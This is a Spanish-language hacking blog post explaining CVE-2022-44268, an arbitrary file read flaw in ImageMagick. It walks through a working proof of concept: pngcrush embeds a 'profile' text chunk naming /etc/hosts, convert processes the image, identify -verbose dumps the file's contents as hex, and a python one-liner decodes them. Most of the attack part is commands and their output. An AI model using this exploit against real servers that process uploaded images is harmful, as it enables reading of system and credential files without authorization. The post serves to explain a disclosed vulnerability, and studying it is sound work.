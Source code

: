 ```yaml
---
title: ImageMagick - la vulnerabilidad oculta detrás de tus imágenes online
date: 2022-02-05 09:00:00 
categories: [HACKING]
tags: [hacking, vulnerabilidad]
description: Recientemente se han descubierto dos vulnerabilidades en ImageMagick 7.1.0-49: un DoS (CVE-2022-44267) y un Information Disclosure (CVE-2022-44268). Nos vamos a centrar en esta última ya que creo que es bastante más interesante.
image: /assets/41/preview1.png
--- 
```


Cuando se agrega un fragmento de texto (por ejemplo, tEXt), si la palabra clave es la cadena "profile" (sin comillas), ImageMagick interpreta la cadena de texto como un nombre de archivo y carga el contenido como un profile sin procesar (si el binario de ImageMagick tiene permisos para leerlo). 

El resultado es que un atacante podría aprovechar ésto para leer arbitrariamente ficheros de un servidor que utiliza ImageMagick para procesar imágenes...

La PoC es además supersencilla.

1. Primero instalamos las dependencias:

        $ apt-get install pngcrush imagemagick exiftool exiv2 -y

2. Añadimos el chunk de texto con el nombre del fichero que queremos leer:

        $ pngcrush -text a "profile" "/etc/hosts" hacker.png 

        Recompressing IDAT chunks in hacker.png to pngout.png
        Total length of data found in critical chunks            =    319742
        Best pngcrush method        =  10 (ws 15 fm 6 zl 9 zs 1) =    328105

        CPU time decode 0.043105, encode 0.648451, other 0.002684, total 0.696421 sec

3.  Ahora tratamos la imagen con ImageMagick para explotar la vulnerabilidad, en el ejemplo simplemente con el comando convert pero en un entorno real podría detonarse simplemente subiéndo la imágen a un servidor vulnerable:

        $ convert pngout.png oculto.png
        convert-im6.q16: keyword "Raw profile type ": bad character '0x20' `oculto.png' @ warning/png.c/MagickPNGWarningHandler/1668.

![Imagen 01](/assets/41/041.png)
    
Y ya está, ahora simplemente vemos el contenido incrustado en la imagen resultante (te lo resalto en amarillo):

    $ identify -verbose oculto.png
    Image:
    Filename: oculto.png
    Format: PNG (Portable Network Graphics)
    Mime type: image/png
    Class: DirectClass
    Geometry: 512x512+0+0
    Resolution: 118.11x118.11
    Print size: 4.33494x4.33494
    Units: PixelsPerCentimeter
    Colorspace: sRGB
    Type: TrueColor
    Base type: Undefined
    Endianness: Undefined
    Depth: 8-bit
    Channel depth:
        red: 8-bit
        green: 8-bit
        blue: 8-bit
    Channel statistics:
        Pixels: 262144
        Red:
        min: 0  (0)
        max: 255 (1)
        mean: 88.2626 (0.346128)
        standard deviation: 73.5068 (0.288262)
        kurtosis: -0.553267
        skewness: 0.75696
        entropy: 0.960805
        Green:
        min: 0  (0)
        max: 255 (1)
        mean: 120.885 (0.474058)
        standard deviation: 90.0684 (0.35321)
        kurtosis: -1.5098
        skewness: 0.223454
        entropy: 0.953738
        Blue:
        min: 0  (0)
        max: 255 (1)
        mean: 130.047 (0.50999)
        standard deviation: 85.4641 (0.335153)
        kurtosis: -1.51198
        skewness: 0.0835374
        entropy: 0.971014
    Image statistics:
        Overall:
        min: 0  (0)
        max: 255 (1)
        mean: 113.065 (0.443392)
        standard deviation: 83.0131 (0.325542)
        kurtosis: -1.33275
        skewness: 0.359084
        entropy: 0.961852
    Rendering intent: Perceptual
    Gamma: 0.454545
    Chromaticity:
        red primary: (0.64,0.33)
        green primary: (0.3,0.6)
        blue primary: (0.15,0.06)
        white point: (0.3127,0.329)
    Background color: white
    Border color: srgb(223,223,223)
    Matte color: grey74
    Transparent color: black
    Interlace: None
    Intensity: Undefined
    Compose: Over
    Page geometry: 512x512+0+0
    Dispose: Undefined
    Iterations: 0
    Compression: Zip
    Orientation: Undefined
    Profiles:
        Profile-icc: 672 bytes
    Properties:
        date:create: 2023-02-05T18:35:18+00:00
        date:modify: 2023-02-05T18:35:18+00:00
        exif:BitsPerSample: 8, 8, 8
        exif:ColorSpace: 1
        exif:DateTime: 2023:02:05 12:24:50
        exif:ExifOffset: 190
        exif:ImageLength: 512
        exif:ImageWidth: 512
        exif:Software: GIMP 2.10.30
        exif:thumbnail:BitsPerSample: 8, 8, 8
        exif:thumbnail:Compression: 6
        exif:thumbnail:ImageLength: 256
        exif:thumbnail:ImageWidth: 256
        exif:thumbnail:JPEGInterchangeFormat: 328
        exif:thumbnail:JPEGInterchangeFormatLength: 13885
        exif:thumbnail:PhotometricInterpretation: 6
        exif:thumbnail:SamplesPerPixel: 3
        icc:copyright: Public Domain
        icc:description: GIMP built-in sRGB
        icc:manufacturer: GIMP
        icc:model: sRGB
        png:bKGD: chunk was found (see Background color, above)
        png:cHRM: chunk was found (see Chromaticity, above)
        png:iCCP: chunk was found
        png:IHDR.bit-depth-orig: 8
        png:IHDR.bit_depth: 8
        png:IHDR.color-type-orig: 2
        png:IHDR.color_type: 2 (Truecolor)
        png:IHDR.interlace_method: 0 (Not interlaced)
        png:IHDR.width,height: 512, 512
        png:pHYs: x_res=11811, y_res=11811, units=1
        png:text: 23 tEXt/zTXt/iTXt chunks were found
        png:tIME: 2023-02-05T18:35:18Z
        Raw profile type: 

        220
    3132372e302e302e31096c6f63616c686f73740a3132372e302e312e31096b79616b750a
    0a232054686520666f6c6c6f77696e67206c696e65732061726520646573697261626c65
    20666f7220495076362063617061626c6520686f7374730a3a3a3120202020206970362d
    6c6f63616c686f7374206970362d6c6f6f706261636b0a666530303a3a30206970362d6c
    6f63616c6e65740a666630303a3a30206970362d6d636173747072656669780a66663032
    3a3a31206970362d616c6c6e6f6465730a666630323a3a32206970362d616c6c726f7574
    6572730a

        signature: 1218350006b7307477b7ba227324971bbf78de7a384d3ab2c12b0984f6fade13
        unknown: 1
    Artifacts:
        filename: oculto.png
        verbose: true
    Tainted: False
    Filesize: 340862B
    Number pixels: 262144
    Pixels per second: 26.1417MB
    User time: 0.010u
    Elapsed time: 0:01.010
    Version: ImageMagick 6.9.11-60 Q16 x86_64 2021-01-25 https://imagemagick.org



¿Lo has visto verdad? En hexadecimal...

    $ python3 -c 'print(bytes.fromhex("texto_en_hexadecimal").decode("utf-8"))'


    $ python3 -c 'print(bytes.fromhex("3132372e302e302e31096c6f63616c686f73740a3132372e302e312e31096b79616b750a0a232054686520666f6c6c6f77696e67206c696e65732061726520646573697261626c6520666f7220495076362063617061626c6520686f7374730a3a3a3120202020206970362d6c6f63616c686f7374206970362d6c6f6f706261636b0a666530303a3a30206970362d6c6f63616c6e65740a666630303a3a30206970362d6d636173747072656669780a666630323a3a31206970362d616c6c6e6f6465730a666630323a3a32206970362d616c6c726f75746572730a").decode("utf-8"))'
    127.0.0.1    localhost
    127.0.1.1    kyaku

    # The following lines are desirable for IPv6 capable hosts
    ::1     ip6-localhost ip6-loopback
    fe00::0 ip6-localnet
    ff00::0 ip6-mcastprefix
    ff02::1 ip6-allnodes
    ff02::2 ip6-allrouters

Fuentes:

[https://www.metabaseq.com/imagemagick-zero-days/](https://www.metabaseq.com/imagemagick-zero-days/)

[https://github.com/agathanon/cve-2022-44268](https://github.com/agathanon/cve-2022-44268)

[https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC](https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC)

